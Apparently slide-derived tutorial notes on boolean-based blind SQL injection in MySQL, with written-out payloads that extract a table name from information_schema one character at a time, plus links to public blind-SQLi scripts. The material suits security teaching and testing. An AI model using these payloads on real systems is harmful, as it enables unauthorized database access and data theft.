




table_name
example:In the database as first
entry we have the table
CHARACTER_SETS
mysql> select table_name from information_schema.tables limit 1;
The first character of the
name of this table is
C
mysql> select substr((select table_name from information_schema.tables limit 1),1,1) as ExtractStringMine;
How to reconstruct the name
of this first table if the Web Application does return only TRUE(return the result) or FALSE(return no
result)?
We need to go by trial and error!Query: SELECT * FROM Users WHERE lname='
<OUR INPUT>';
•
<OUR
INPUT> ◇
SQLi Prefix: Dent' AND
◇
Binary Condition: ▪ Binary Inject 1: substr((select table_name
from information_schema.tables limit 1),1,1) > "m"
Dent' and substr((select table_name from information_schema.tables limit 1),1,1) > "m";#
 FALSE! ▪ Binary Inject 2: substr((select table_name from
information_schema.tables limit 1),1,1) > "g"
Dent' and substr((select table_name from information_schema.tables limit 1),1,1) > "g";#
FALSE! ▪ Binary Inject 4: substr((select table_name from
information_schema.tables limit 1),1,1) > "b"
Dent' and substr((select table_name from information_schema.tables limit 1),1,1) > "b";#
 TRUE! ▪ Binary Inject 5: substr((select table_name from
information_schema.tables limit 1),1,1) = "c"
Dent' and substr((select table_name from information_schema.tables limit 1),1,1) = "C";#
TRUE! We have found that the first letter of the table name is c ◇
SQLi Suffix:
;#
Tools(scripts)Because exploit this vulnerability manually can take a lot
of time take in considerations to write your own script or use one that you can find online like these (not tested
yet):
◇
https://github.com/21y4d/blindSQLi/blob/master/blindSQLi.py
(python)
◇
https://github.com/ivanitlearning/Blind_SQL_injection_script
(bash)